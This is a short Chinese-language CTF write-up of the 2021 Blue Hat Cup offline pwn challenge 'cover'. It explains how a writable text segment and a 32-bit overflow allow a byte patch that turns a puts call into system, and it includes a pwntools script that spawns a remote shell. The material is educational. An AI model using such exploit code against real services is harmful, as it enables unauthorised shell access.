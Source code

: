 ```yaml
---
title: 蓝帽杯2021线下Pwn题WP
author: Ch4rc0al

#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

## cover

>     Arch:     i386-32-little
>     RELRO:    Partial RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      No PIE (0x8048000)



线下唯一做出来的题

> mprotect(&dword_8048000, 0x8888u, 7);

开头将源程序的0x8048000+0x8888的部分的权限改为了**可读可写可执行**

main 函数内容

```c
buf_1 = 0;
buf_2 = 0;
printf("Try use a bullet to pwn this%s\n", (const char *)&buf_1);
read(0, &buf_1, 5u);
if ( (int)buf_1 > (int)"ou launch the bullet, and... What's your name?%c\n" )
{
  printf("%p is too big...\n", buf_1);
  exit(0);
}
*buf_1 = buf_2;
printf("OK,you launch the bullet, and... What's your name?%c\n", SHIBYTE(v5));
read(0, &buf_1, 0xAu);
puts((const char *)&buf_1);
```

其中`(int)"ou launch the bullet, and... What's your name?%c\n"`的地址为0x8048888，程序会在buf_1输入一个地址，并且将buf_2的内容写入到buf_1地址对应的内存中。

由于是32位程序，我们可以溢出buf_1使buf_2的内容被修改。

由于0x8048000-0x8048888之间的内容包括`text`段，所以我们可以修改程序的`text`段来达到修改程序执行流的效果，我们可以将调用`puts`的内容改为调用`system`来运行`system("/bin/sh")`

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
sh=remote('118.190.62.234',12435)
#sh=process('./pwn')
#08040000-08048888
p1=p32(0x08048792)
print p1
sh.sendafter('Try use a bullet to pwn this\n',p1+p8(0x4a))
sh.sendafter("OK,you launch the bullet, and... What's your name?",'/bin/sh')
sh.interactive()

```



